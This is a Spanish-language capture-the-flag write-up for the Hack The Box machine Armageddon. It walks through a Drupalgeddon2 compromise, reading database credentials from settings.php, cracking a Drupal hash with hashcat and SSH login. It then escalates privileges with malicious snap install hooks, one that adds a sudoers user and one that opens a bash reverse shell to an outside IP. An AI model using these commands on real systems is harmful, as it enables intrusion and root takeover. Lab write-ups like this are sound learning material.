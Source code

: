 #by d4l1

<p align="center"><img src=""></p>
<h1 align="center">Armageddon</h1>

# ÍNDICE

# INICIO

Arageddib es una máquina Linux fácil. Encontramos un drupal vulnerable en una página web en el que podremos acceder remotamente al host.
Dentro de la enumeración de Drupal y su entrcutra de fichero encontramos las credenciales para conectarnos al servidor de MySQL y extraer el hash del usuario del sistema.
Con esas credenciales nos conectamos por SSH. Tenemos la disponibilidad de instalar aplicacion. Escalamos privilegios subiendo e instalando una aplicacion maliciosa

Para empezar el ping para comprobar

![image](https://github.com/D4l1-web/HTB/assets/79869523/da7167a0-810e-4f1c-9242-fe537d22af87)

Posteriormente el escaner de directorios

![image](https://github.com/D4l1-web/HTB/assets/79869523/bdb1ae67-cf5d-4ed7-9d73-bb5e6568fe35)

En el que encontramos dos puertos abiertos un puerto 22 SSH y un 80 con un apache 2.4.6 un drupta 7 e información relevante.

En mi caso utilizare searchspoit para buscar algún exploit sobre "drupal 7"

![image](https://github.com/D4l1-web/HTB/assets/79869523/773c384e-e52f-41c6-aad6-2bf15a5ffb11)

```
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```
Alfinal me he metido con metasploit buscando el exploit directamente con un 
```
search drupal 7
```
He cogido el exploit drupaggedon2 he configurado los RHOST y los LHOST y estamos dentro con el usuario "apache"
![image](https://github.com/D4l1-web/HTB/assets/79869523/f8c9306e-fb27-4e87-a317-5ee974ba48f7)

Posteriormente me he ido a la ruta de la configuracion de la base de datos y hemos enumerado los archivos y encontrado la contraseña.

![image](https://github.com/D4l1-web/HTB/assets/79869523/f910248f-a65d-4dd8-abdd-9521194ba9e6)

```
cat /var/www/html/sites/default/settings.php
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
```
![image](https://github.com/D4l1-web/HTB/assets/79869523/ab7bb26c-76e1-4f62-bbd5-cb4309238f6a)

![image](https://github.com/D4l1-web/HTB/assets/79869523/90a73146-b4ac-4ca6-a7cf-66866b07c376)

Con esto sacamos los hashes de los usuario e intentamos sacar la contraseña con el hash sacado 
```
DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
echo 'DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash
```

```
sudo hashcat -m 7900 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt --force
```
Sacamos la pass "booboo"

y ya nos podemos conectar por ssh

![image](https://github.com/D4l1-web/HTB/assets/79869523/5746cc3b-5066-428b-b891-77af9d1bd908)

si hacemos un sudo -l encontramos que tenemos una ruta en la quep odemos instalar cositas

![image](https://github.com/D4l1-web/HTB/assets/79869523/1119ebe3-c83d-4f86-80ca-c3af13276b3e)

Podemos ejectuar comandos en base a ello como root sin necesida de contraseña esto nos abre muchsiimas puertas funciona como un sandbox. 

```
sudo apt update
sudo apt install snapd
sudo snap install --classic snapcraft
```

EL contenido del payload de snap debe tener un codigo que se ejecute en la instalación. Vamos acrear un pequeño script en bash que cree un usuaio con una contraseña y copie el codigo dentro de un archivo que nosotros queramos

```
# Make an empty directory to work with
mkdir new_snap
cd new_snap
# Initialize the directory as a snap project
snapcraft init
# Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install
# Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash
password="snap_user"
pass=$(perl -e 'print crypt($ARGV[0], "password")' $password)
useradd snap_user -m -p $pass -s /bin/bash
usermod -aG sudo snap_user
echo "snap_user ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF
# Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: snap-user
version: '0.1'
summary: Empty snap, used for exploit
description: |
 This is an example
grade: devel
confinement: devmode
parts:
 my-part:
 plugin: nil
EOF
# Build the snap
snapcraft
```
Deberemos cambiar los permisos para ejecutar
```
chmod +x snapcraft.sh
./snapcraft.sh
```
Cuando este todo copiaremos el codigo en la máquina remota
```
scp -r new_snap brucetherealadmin@ip:/tmp
```
y ahoora podremos instalar snap en la máquina remoda y usar sudo y modos de developer
```
cd /tmp/new_snap
sudo snap install --devmode snap-user_0.1_amd64.snap
```
Vale alfinal no he hecho nada de esto

dentro de nuestra máquina vamos a poner estos comandos
```
CMD="bash -c 'bash -i >& /dev/tcp/10.10.15.71/8055 0>&1'"
mkdir file; cd file
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$CMD" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n sh3ll -s dir -t snap -a all meta
```
```
scp sh3ll_1.0_all.snap brucetherealadmin@armageddon.htb:/tmp/tmp.Gmm08jw9f7/
sudo snap install sh3ll_1.0_all.snap --dangerous --devmode
```
GG




